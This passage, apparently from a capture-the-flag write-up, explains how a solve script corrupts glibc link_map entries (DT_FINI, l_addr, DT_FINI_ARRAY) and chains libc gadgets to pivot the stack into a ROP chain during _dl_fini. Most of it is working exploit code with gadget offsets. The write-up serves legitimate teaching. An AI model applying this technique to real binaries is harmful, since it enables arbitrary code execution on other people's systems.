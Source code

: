 In my solve script, I used the `link_maps` of the binary and of the `libseccomp`, but any of the 4 `link_maps` used in `_dl_fini` should work, as `r8` is never used neither in `_dl_call_fini` .

```python
# Now for the fun part
# We need to pivot the stack so that rsp points to the start of our ropchain
# We have the following gadget in libc : 
#    0x000000000003c338: mov rsp, r8; mov rbp, r9; jmp rdx;
stack_pivot_gadget = libc.address + 0x000000000003c338

# But how exactly do we control the value of r8 ?
# We have another gadget in libc just for that : 
#     mov r8, rdx; mov qword ptr [rdi], r8; mov qword ptr [rdi + 8], rcx; xor eax, eax; ret;
mov_r8_rdx = libc.address + 0x000000000004118b

# Now let's chain them by corrupting the link_maps once again :p


# Let's start once again by the link_map of the binary itself
ld = 0x239000 - 0x10
link_map = ld + 0x332d0

# Put the address of our ropchain in rdx
for i in range(len(p64(ropchain_addr))):
  relative_write(p64(ropchain_addr)[i], link_map + link_map_offsets["l_info"]["DT_FINI"] + i)

# Put the address of our mov_r8_rdx gadget in rax
for i in range(len(p64(mov_r8_rdx))):
  relative_write(p64(mov_r8_rdx)[i], link_map + link_map_offsets["l_addr"] + i)


# Now, we will corrupt the next link-map : the link-map of the libseccomp
libseccomp = 0x207000 - 0x10
link_map = libseccomp + 0x30170

# Disable DT_FINI_ARRAY
for i in range(8):
  relative_write(0, link_map + link_map_offsets["l_info"]["DT_FINI_ARRAY"] + i)

# Put the address of a add_rsp gadget into rdx
# The added value itself is not very important (as long as it allows us to add at least 0x10)
# Put we must know the value of the QWORD behind, because _dl_call_fini will add it added to rax before jumping
for i in range(len(p64(add_rsp_0x18))):
  relative_write(p64(add_rsp_0x18)[i], link_map + link_map_offsets["l_info"]["DT_FINI"] + i)

# Put the address of our stack_pivot_gadget in rax minus the value at [rdx+8] that will be added
to_set = p64((stack_pivot_gadget - 0x0824748d48000044) & 0xffffffffffffffff)
for i in range(len(to_set)):
  relative_write(to_set[i], link_map + link_map_offsets["l_addr"] + i)
```
